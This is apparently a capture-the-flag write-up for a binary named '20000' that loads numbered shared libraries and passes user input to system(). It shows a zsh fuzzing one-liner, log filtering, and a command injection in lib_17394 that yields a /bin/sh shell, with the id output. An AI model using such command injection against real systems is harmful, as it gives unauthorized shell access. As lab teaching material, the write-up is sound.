 It basically loads a shared object of the number we input from the `20000_so` folder and calls the `test` function. 

By analyzing a couple binaries, I came to the conclusion that each of them takes a 0x32 byte string as input, then maybe check it against `filter(1/2)` function and then maybe pass it to `system()` as a param to "ls"

There is an obvious command injection but the filters were pretty strict. Actually, the `filter(1/2)` were loaded from other shared libraries by the shared library.

Instead of scripting an auto analyzer with something like binja, I decided to fuzz it first. Here is my basic zsh onliner:

```
for m in {0..20000}; do echo -e "$m\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"|./20000 2>&1| tail -n 2 >>! out;echo "$m" >>! out; done
```

Just fuzzing with shitty AAAAAAs actually proved fruitful while sorting through the logs:

```
$ cat out|grep -v "INPUT"|grep -v 'ls: cannot access'|grep -v 'How do you find vulnerable file?' > out2

$ cat out2
....
17391
17392
17393
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@: not found
*** stack smashing detected ***: <unknown> terminated
17394
17395
17396
...
```

Looks like in lib 17394, our input gets directly executed, Let's try it again:

```
$ ./20000

   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$  
  /$$__  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$ 
 |__/  \ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$ 
   /$$$$$$/| $$ $$ $$| $$ $$ $$| $$ $$ $$| $$ $$ $$ 
  /$$____/ | $$\ $$$$| $$\ $$$$| $$\ $$$$| $$\ $$$$ 
 | $$      | $$ \ $$$| $$ \ $$$| $$ \ $$$| $$ \ $$$ 
 | $$$$$$$$|  $$$$$$/|  $$$$$$/|  $$$$$$/|  $$$$$$/ 
 |________/ \______/  \______/  \______/  \______/  

INPUT : 17394
This is lib_17394 file.
How do you find vulnerable file?
/bin/sh
$ id 
uid=1000(jazzy) gid=1000(jazzy) groups=1000(jazzy)
```
